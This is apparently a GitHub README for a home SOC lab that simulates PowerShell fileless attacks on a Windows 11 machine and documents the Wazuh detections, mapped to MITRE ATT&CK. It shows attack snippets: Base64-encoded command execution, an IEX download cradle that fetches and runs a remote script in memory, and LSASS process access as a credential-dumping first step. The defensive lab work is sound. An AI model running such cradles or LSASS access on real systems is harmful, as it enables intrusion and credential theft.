


# 🛡️ SOC Project 2: Fileless Attack Detection with Sysmon + Wazuh


---

## 📌 Project Overview

This project simulates real-world **PowerShell-based fileless attacks** and **Living-off-the-Land (LotL)** techniques against a Windows 11 endpoint, then detects them using **Agent** forwarded to a **Wazuh SIEM**. 

The goal is to replicate a Tier 1 SOC analyst workflow: understand the attack, observe the telemetry, triage the alert, and document findings — all mapped to the **MITRE ATT&CK framework**.

> 💡 This is Project 2 in my SOC Analyst home lab series. [View Project 1 → SMB Brute Force Detection](https://github.com/munazajamil/SOC-SMB-Bruteforce-Detection)

---

## 🏗️ Lab Environment

| Component | Details |
|-----------|---------|
| **SIEM** | Wazuh 4.x (Docker on WSL2) |
| **Endpoint Agent** | Windows 11 — Wazuh Agent (windows-host) |
| **Attack Method** | Native PowerShell (Living-off-the-Land) |
| **Total Alerts Generated** | 1,180 security events |

---

## ⚔️ Attacks Simulated

### Attack 1 — Encoded PowerShell Command `T1059.001`
This attack is used to encode malicious commands, like instead of "delete files" attacker encode it to "DWDWDodw..." like this.
Encoded a command string using Base64 and executed it via `-EncodedCommand` flag — a common technique attackers use to **obfuscate malicious commands** from basic security tools.

```powershell
$command = "whoami; hostname; ipconfig"
$encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($command))
powershell.exe -EncodedCommand $encoded
```
**Result:** Executed successfully. Wazuh detected via Rule 91816 (T1082 — System Information Discovery).

---

### Attack 2 — PowerShell Download Cradle / IEX `T1105`
This attack is also called as fileless attack, in this attack files execute and malicious files run without saving into memory.
Attempted to download and execute a script directly in memory using `IEX` + `Net.WebClient` — the classic **fileless payload delivery** technique that avoids writing anything to disk.

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/README.md')
```
**Result:** ✅ **Blocked by Windows Defender (AMSI)** — Threat identified as `Trojan:PowerShell/Powersploit.C`, Severity: **Severe**. Logged in Wazuh as Rule 62123 (Level 12).

---

### Attack 3 — LSASS Memory Access `T1003.001`
Local Security Authority Subsystem Services, windows passwords vault, which store all paswords in memory, used to dump passwords and credentials.
Opened a handle to the **LSASS process** (Windows password vault) — simulating the first step of credential dumping tools like Mimikatz (open-source post-exploitation tool for Windows that extracts sensitive authentication credentials directly from memory).

```powershell
$lsass = Get-Process lsass
$handle = [System.Diagnostics.Process]::GetProcessById($lsass.Id)
Write-Host "Triggered - LSASS PID: $($lsass.Id)"
```
**Result:** LSASS PID 1056 accessed. Wazuh detected via Rule 91815 (T1057 — Process Discovery).

---

## 📊 Detections in Wazuh Dashboard

### Security Events Overview

> 1,180 total alerts generated | 3 High-severity (Level 12+) | 152 authentication events captured

---

### Rule 91815 — PowerShell Process Discovery (T1057)

> Triggered by Attack 3 (LSASS access). Wazuh captured the exact scriptBlockText showing `Get-Process lsass` command.

---

### Rule 91816 — PowerShell System Info Discovery (T1082)

> Triggered by Attack 1 (Encoded command). Wazuh captured Event ID 4104 from PowerShell/Operational log channel.

---

### Rule 62123 — Windows Defender: Malware Blocked (Level 12)

> Triggered by Attack 2 (Download Cradle). Defender identified `Trojan:PowerShell/Powersploit.C` via AMSI scanning. Execution status: **Suspended**.

---

### PowerShell — Attack 2 Blocked by Defender

>Output showing the `ScriptContainedMaliciousContent` block — a defensive layer working as expected, screenshot is attached.

---

### MITRE ATT&CK Dashboard

> Wazuh automatically mapped detected activity to MITRE tactics: Defense Evasion, Discovery, Persistence, Initial Access, Privilege Escalation.

---

## 🗺️ MITRE ATT&CK Coverage

See full mapping → [MITRE-mapping.md](MITRE-mapping.md)

| Technique ID | Technique Name | Attack Simulated | Wazuh Rule | Detected |
|-------------|---------------|-----------------|------------|----------|
| T1059.001 | PowerShell | Encoded command execution | 91816 | ✅ |
| T1105 | Ingress Tool Transfer | IEX download cradle | 62123 | ✅ Blocked |
| T1003.001 | LSASS Memory Access | Credential dump simulation | 91815 | ✅ |
| T1057 | Process Discovery | Get-Process lsass | 91815 | ✅ |
| T1082 | System Info Discovery | whoami/hostname/ipconfig | 91816 | ✅ |

---

## 🔍 Key Findings

- **Fileless techniques work** — Attack 1 and 3 ran without dropping any files to disk, yet Wazuh still captured them through PowerShell Script Block Logging (Event ID 4104)
- **AMSI is a critical layer** — Windows Defender's AMSI integration blocked Attack 2 at the PowerShell engine level before any payload executed
- **Script Block Logging reveals obfuscated commands** — even encoded commands get decoded and logged when PS logging is enabled, giving analysts full visibility
- **Wazuh auto-maps to MITRE** — built-in rules automatically tag alerts with ATT&CK technique IDs, reducing analyst triage time

---

## 🛠️ Tools & Technologies

| Tool | Purpose |
|------|---------|
| Wazuh 4.x | SIEM — log collection, alerting, dashboards |
| PowerShell Script Block Logging | Captures all PS commands (Event ID 4104) |
| Windows Defender / AMSI | Endpoint protection layer |
| Docker + WSL2 | Wazuh deployment environment |
| MITRE ATT&CK Navigator | Technique mapping |

---

## 🎯 SOC Analyst Skills Demonstrated

- ✅ SIEM deployment and agent configuration (Wazuh + Windows)
- ✅ Endpoint telemetry setup ( PowerShell logging)
- ✅ Attack simulation using native OS tools (LotL techniques)
- ✅ Alert triage and investigation workflow
- ✅ MITRE ATT&CK framework mapping
- ✅ Defensive layer validation (AMSI/Defender)
- ✅ Security event documentation and reporting

---

## 👩‍💻 Author

**Munnaza Jamil** — Aspiring SOC Analyst  
Self-learning cybersecurity | Blue Team focused | Based in Pakistan

[](https://linkedin.com/in/munazajamil)
[](https://tryhackme.com/p/munaza.jamil01)
[](https://github.com/munazajamil)
[](https://munazajameel.site/blog)

---
